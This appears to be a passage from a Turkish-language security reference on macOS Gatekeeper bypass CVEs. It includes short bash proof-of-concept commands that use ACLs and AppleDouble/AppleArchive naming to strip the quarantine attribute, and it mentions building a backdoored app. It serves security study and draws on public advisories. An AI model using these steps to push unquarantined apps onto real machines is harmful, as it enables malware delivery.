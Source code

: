 ### [CVE-2022-42821](https://www.microsoft.com/en-us/security/blog/2022/12/19/gatekeepers-achilles-heel-unearthing-a-macos-vulnerability/)

ACL **`writeextattr`** bir dosyaya bir öznitelik yazılmasını önlemek için kullanılabilir:
```bash
touch /tmp/no-attr
chmod +a "everyone deny writeextattr" /tmp/no-attr
xattr -w attrname vale /tmp/no-attr
xattr: [Errno 13] Permission denied: '/tmp/no-attr'
```
Ayrıca, **AppleDouble** dosya formatı, bir dosyayı ACE'leri ile birlikte kopyalar.

[**kaynak kodda**](https://opensource.apple.com/source/Libc/Libc-391/darwin/copyfile.c.auto.html) görülebilir ki, xattr içinde saklanan ACL metin temsili **`com.apple.acl.text`** olarak adlandırılır ve bu, sıkıştırılmamış dosyada ACL olarak ayarlanacaktır. Yani, bir uygulamayı ACL ile birlikte **AppleDouble** dosya formatında bir zip dosyasına sıkıştırdıysanız ve bu ACL diğer xattr'ların yazılmasını engelliyorsa... karantina xattr'ı uygulamaya ayarlanmamıştır:
```bash
chmod +a "everyone deny write,writeattr,writeextattr" /tmp/test
ditto -c -k test test.zip
python3 -m http.server
# Download the zip from the browser and decompress it, the file should be without a quarantine xattr
```
Daha fazla bilgi için [**orijinal raporu**](https://www.microsoft.com/en-us/security/blog/2022/12/19/gatekeepers-achilles-heel-unearthing-a-macos-vulnerability/) kontrol edin.

Bu durumun AppleArchives ile de istismar edilebileceğini unutmayın:
```bash
mkdir app
touch app/test
chmod +a "everyone deny write,writeattr,writeextattr" app/test
aa archive -d app -o test.aar
```
### [CVE-2023-27943](https://blog.f-secure.com/discovery-of-gatekeeper-bypass-cve-2023-27943/)

**Google Chrome'un indirilen dosyalar için karantina niteliğini ayarlamadığı** bazı macOS iç sorunları nedeniyle keşfedildi.

### [CVE-2023-27951](https://redcanary.com/blog/gatekeeper-bypass-vulnerabilities/)

AppleDouble dosya formatları, bir dosyanın niteliklerini `._` ile başlayan ayrı bir dosyada saklar, bu da dosya niteliklerini **macOS makineleri arasında kopyalamaya** yardımcı olur. Ancak, bir AppleDouble dosyası açıldıktan sonra, `._` ile başlayan dosyanın **karantina niteliği verilmediği** fark edildi.
```bash
mkdir test
echo a > test/a
echo b > test/b
echo ._a > test/._a
aa archive -d test/ -o test.aar

# If you downloaded the resulting test.aar and decompress it, the file test/._a won't have a quarantitne attribute
```
Bir dosya oluşturabilmek, karantina niteliği ayarlanmamış, **Gatekeeper'ı atlatmak mümkün oldu.** Hile, **AppleDouble adlandırma kuralını** kullanarak bir DMG dosyası uygulaması **oluşturmak** ve karantina niteliği olmayan bu gizli dosyaya **görünür bir dosya olarak sembolik bağlantı** oluşturmaktı.\
**Dmg dosyası çalıştırıldığında**, karantina niteliği olmadığı için **Gatekeeper'ı atlatacaktır.**
```bash
# Create an app bundle with the backdoor an call it app.app

```